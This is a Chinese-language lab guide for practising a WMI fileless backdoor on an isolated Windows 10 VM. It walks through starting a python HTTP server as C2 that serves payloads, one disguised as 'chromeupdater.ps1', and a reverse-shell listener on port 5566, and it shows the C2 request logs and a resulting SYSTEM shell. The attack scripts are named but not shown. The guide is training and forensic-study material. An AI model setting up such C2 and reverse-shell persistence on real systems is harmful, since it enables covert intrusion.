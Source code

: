 _供 WMI Fileless Backdoor Lab 練習參考文件_ 

_by Han.Chen_

# 啟動 VM (本次 lab 環境)

- #### 將教材.zip 檔 `解壓縮`
- #### 進入 `wmilab-Win10` 資料夾，雙擊 `wmilab-Win10.vbox` 檔
這會自動啟動 **Oracle VM VirtualBox**，並可看到主機顯示於清單中，先 **不進行開機**
- #### 在 Oracle VM VirtualBox 視窗中，選定剛匯入的主機並進入 `設定` 頁面
	- #### 進入 `顯示` 功能下的 `畫面` 頁籤，確認 `視訊記憶體` 設定值在 `綠區`
	- #### 進入 `網路` 功能下的 `介面卡 2` 頁籤，確認
		- #### `啟用網路卡` 已 `勾選`
		- #### `附加到` 設定為 `僅限主機介面卡`
	- #### 點擊 `確定` 結束設定
- #### 將 lab 虛擬機 `開機`
- #### Win 10 登入密碼為 Microsoft 官方 VM 預設的 `Passw0rd!`
需確認可順利登入使用

# 啟動攻擊環境

- #### cmdline 進入 `attacker` 目錄內，確認至少 `gimmesome.js`、`chromeupdater.ps1` 檔案存在
```console
WMI_Fileless_Backdoor_lab/attacker$ ls
total 112
drwxr-xr-x  7 han.chen  1079850989   224B  4  3 22:30 .
drwxr-xr-x  6 han.chen  1079850989   192B  4  4 04:42 ..
-rw-r--r--@ 1 han.chen  1079850989    37K  3 29 18:05 chromeupdater.ps1
-rw-rw-r--@ 1 han.chen  1079850989   427B  4  1 09:43 clean.ps1
-rw-rw-r--@ 1 han.chen  1079850989   2.7K  3 29 17:53 evil3.vbs
-rw-rw-r--@ 1 han.chen  1079850989   342B  3 29 18:28 gimmesome.js
-rw-rw-r--@ 1 han.chen  1079850989   1.9K  3 18 13:10 shell_server_vH.py
```
- #### 執行 `python3 -m http.server 8080` 啟動 python simple server
```console
python3 -m http.server 8080
```
起一個簡單的 web service 在 port 8080 當 C2，方便受害主機來取後續指令
<br>範例
```console
WMI_Fileless_Backdoor_lab/attacker$ python3 -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...

```
- #### 另開一個 cmdline 一樣進入 `attacker` 目錄內
- #### 沒有裝過 gnureadline 的話安裝一下 `pip3 install gnureadline`
- #### 執行 `python3 shell_server_vH.py` 啟動 shell console
```console
python3 shell_server_vH.py
```
在 port 5566 listen，等待受害主機主動回連 reverse shell
<br>範例
```console
WMI_Fileless_Backdoor_lab/attacker$ python3 shell_server_vH.py
------------Listening on 5566------------

```

# 觸發建立 reverse shell

- #### Windows 虛擬機，點擊螢幕左下角 `Start (Windows 圖示)` > 點擊 `人像圖示 (IEUser)` > 點擊 `Lock` 鎖定螢幕
- #### Windows 虛擬機，輸入官方預設密碼 `Passw0rd!` 登入
- #### 觀察 攻擊環境兩個 cmdline 分頁是否有檔案請求與 reverse shell 建立
C2 範例 (python -m http.server 8080)
```console
WMI_Fileless_Backdoor_lab/attacker$ python3 -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...

::ffff:192.168.56.117 - - [04/Apr/2022 14:44:28] "GET /gimmesome.js HTTP/1.1" 200 -
::ffff:192.168.56.117 - - [04/Apr/2022 14:44:28] "GET /gimmesome.js HTTP/1.1" 200 -
::ffff:192.168.56.117 - - [04/Apr/2022 14:44:29] "GET /chromeupdater.ps1 HTTP/1.1" 200 -
::ffff:192.168.56.117 - - [04/Apr/2022 14:44:29] "GET /chromeupdater.ps1 HTTP/1.1" 200 -
```
reverse shell 範例 (python shell_server_vH.py)
```console
WMI_Fileless_Backdoor_lab/attacker$ python3 shell_server_vH.py
------------Listening on 5566------------

<socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('192.168.56.1', 5566), raddr=('192.168.56.117', 49705)>


(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


# 攻擊者視角
此時 reverse shell 已經建立，可以在 shell console (python shell_server_vH.py) 下指令操作目標 windows 主機

```console
C:\Windows\system32>whoami

nt authority\system


C:\Windows\system32>query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 ieuser                console             1  Active      none   4/3/2022 5:41 AM


C:\Windows\system32>ipconfig


Windows IP Configuration



Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::c50d:519f:96a4:e108%6
   IPv4 Address. . . . . . . . . . . : 10.0.2.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.2.2

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::9805:bf7b:7e5f:cf81%3
   IPv4 Address. . . . . . . . . . . : 192.168.56.117
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

```



# reference
- https://www.giac.org/paper/gcfa/11563/hunting-ghosts-fileless-attacks/150888
- https://nxlog.co/documentation/nxlog-user-guide/wmi.html
- https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf
- https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing
- https://social.technet.microsoft.com/Forums/windows/en-US/74174afb-46b7-4c4c-b89c-537af3a038a0/audit-event-id-4719-keeps-happening-over-and-over?forum=winserverGP
- https://social.technet.microsoft.com/Forums/windows/en-US/bf693b49-1dd5-45ee-84cf-4a417e5b35ec/run-as-admin-event-log?forum=winserverDS
- https://github.com/williballenthin/EVTXtract
- https://github.com/Virus-Samples/Malware-Sample-Sources
